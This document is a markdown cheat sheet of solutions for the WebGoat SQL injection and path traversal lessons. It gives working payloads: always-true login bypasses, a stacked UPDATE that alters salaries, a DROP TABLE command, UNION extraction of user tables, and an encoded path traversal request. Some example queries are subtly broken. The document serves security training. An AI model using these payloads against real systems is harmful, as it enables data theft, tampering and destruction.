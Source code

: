 # WebGoat SQL Cheathseet

## SQL Injection (Intro)

* Commands for manipulate data: 
    * `SELECT`, `INSERT`, `UPDATE`, `DELETE`, `CREATE`, `ALTER`, `DROP`, `CREATE`, `REVOKE`


* SQL command for retrieve data, important the single quotes
    * `SELECT column FROM table WHERE column = 'value'`
    * WebGoat (A1) Injection - SQL Injection (Intro) 2.
        * `SELECT department FROM Employees WHERE first_name = 'Bob'`


* To update columns
    * `UPDATE table SET columname = 'newvalue' WHERE columname = 'value'`
    * WebGoat (A1) Injection - SQL Injection (Intro) 3.
        * `UPDATE Employees set department = 'Sales' WHERE first_name = 'Tobi'`


* To add column
    * `ALTER TABLE tabla ADD column_name datatype`
    * WebGoat (A1) Injection - SQL Injection (Intro) 4.
        * `ALTER TABLE Employees ADD phone varchar(20)`

* Grant user the right to alter tables
    * `GRANT ALTER TABLE TO operator`
    * WebGoat (A1) Injection - SQL Injection (Intro) 5.
        * `GRANT ALTER TABLE TO UnauthorizedUser`

* SQL Injection
    * `Smith' or '1' = '1`
    * `Smith' or '1' = '1; --`
 

* WebGoat (A1) Injection - SQL Injection (Intro) 9.
    * Internal query:
        * `"SELECT * FROM user_data WHERE first_name='John' AND last_name = '"+lastName+"' ";`
    * Payload:
        * `Smith' or '1'='1`


* WebGoat (A1) Injection - SQL Injection (Intro) 10. Numeric SQL Injection.
    * `Login_count: 1` and `User_id: 1 OR 1=1`
    * Final query: `SELECT * FROM user_data WHERE Login_count = 1 and userid=1 OR 1=1s`


* WebGoat (A1) Injection - SQL Injection (Intro) 11. Compromising confidenciality
    * Internal Query:
        * `SELECT * FROM employees WHERE last_name = '" +name+"' AND auth_tan = '" +auth_than+"1;`
    * Payload:
        * Employee Name: `Smith' OR 1=1;--` 
        * Authentication TAN: `(empty)`


* WebGoat (A1) Injection - SQL Injection (Intro) 12. Compromising Integrity
    * Employee Name: `Smith'; UPDATE Employees set SALARY = '90000' WHERE last_name = 'Smith';-- `
    * Authentication TAN: `(empty)`

* WebGoat (A1) Injection - SQL Injection (Intro) 13. Compromising Availability
    * `l'; DROP TABLE access_log;--`


## SQL Injection (advanced)

 * UNION
    * Combine results of two or more __SELECT__ Statements
    * `SELECT first_name FROM user_system UNION SELECT login_count FROM user_data;`

* JOIN
    * Combine rows from two or more tables, based on a related column
    *   `SELECT * FROM user_data INNER JOIN user_data ON user_data.userid=user_data_tan.user.id;`

* Query chaining
    * `;`

* Comments
    * `/* */`
    * `--, #`

* WebGoat (A1) Injection - SQL Injection (advanced) 3.
    * First way:
        * Name: `a'; SELECT * FROM user_system_data;--`

    * Second way (Padding with Null):
        * Name: `a' UNION SELECT * FROM user_system_data.*,NULL,NULL,NULL from user_system_data;--`


## Path interception

* WebGoat (A1) Injection - PATH TRAVERSAL 5.
    * Watch the requests and RESPONSES, begin to fuzz and hidde special characters
    * `GET /WebGoat/PathTraversal/random-picture?id=%2E%2E%2F%2E%2E%2Fpath-traversal-secret HTTP/1.1`